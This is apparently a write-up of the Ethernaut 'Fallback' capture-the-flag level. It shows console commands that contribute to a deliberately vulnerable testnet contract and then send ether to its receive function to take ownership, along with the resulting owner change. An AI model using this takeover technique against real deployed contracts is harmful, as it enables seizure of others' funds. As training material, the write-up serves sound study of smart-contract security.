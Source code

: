 
## Web3 console cmd
Contract link
https://rinkeby.etherscan.io/address/0xa74746de333958789c0e57aeb12515a050f438ff

	await contract.address
		'0xA74746dE333958789c0e57Aeb12515a050F438FF'

	await contract.owner()
		'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

	contract.abi
	(7) [{…}, {…}, {…}, {…}, {…}, {…}, {…}]
		0: {inputs: Array(0), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
		1: {inputs: Array(0), name: 'contribute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
		2: {inputs: Array(1), name: 'contributions', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		3: {inputs: Array(0), name: 'getContribution', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		5: {inputs: Array(0), name: 'withdraw', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
		6: {stateMutability: 'payable', type: 'receive', constant: undefined, payable: true}

	call fonction contribute
	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001"), data: "0xd7bb99ba"})
		https://rinkeby.etherscan.io/tx/0x665a581bae30d4ec1e8bfb857ebc88b9457669cf3040a2d32d9000db042df2b1

	send eth to triggert callback function receive and become owner of the contract
	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001")})
		https://rinkeby.etherscan.io/tx/0x911f0a3171d06e017d3194b4660eeb850e9d059a8f3e5cffd6fe4b8466b8e8af

	await contract.owner()
		'0x6E81372783990a13715857888B32325621DB44E2'

	await getBalance(contract.address)
		'0.0002'

	
## Fallback
## Level completed!
Difficulty 1/10

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
